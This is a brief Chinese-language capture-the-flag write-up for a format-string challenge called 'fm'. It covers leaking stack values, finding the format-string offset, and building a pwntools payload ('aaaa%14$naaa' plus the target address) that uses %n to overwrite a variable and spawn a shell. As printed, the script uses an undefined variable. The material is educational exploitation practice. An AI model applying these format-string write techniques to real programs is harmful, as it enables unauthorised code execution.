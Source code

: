 首先检查安全机制

![image-20201201170232547](https://static.hack1s.fun/images/2021/02/06/image-20201201170232547.png)

用IDA打开

![image-20201201170344974](https://static.hack1s.fun/images/2021/02/06/image-20201201170344974.png)

main函数部分其实并不存在溢出

看这个题目的名字，也知道是个格式化字符串，任务就是通过这个printf，把x赋值从3变成4

这样就可以调起来shell

首先执行输入`%08x`这样的形式查看栈上的值

可以看到输出的几个值分别是`printf(buf)`中`buf`的地址、`read`从右到左的参数

![image-20201201200228420](https://static.hack1s.fun/images/2021/02/06/image-20201201200228420.png)

通过`%p`确定了字符串本身的相对偏移

格式化字符串本身的偏移是11，想要写入的值是4，所以%n的位置应该在四个a后面

之后`aaaa`是第11个参数，`%14$`是第十二个参数，`naaa`是第十三个参数；

最后加上的x地址是第14个参数，因此这里`%k$n`的k填写的是14

```python
from pwn import *

io = process('./fm')
elf = ELF('./fm')

payload='aaaa%14$naaa'+p32(x)
io.send(payload)

io.interactive()
```

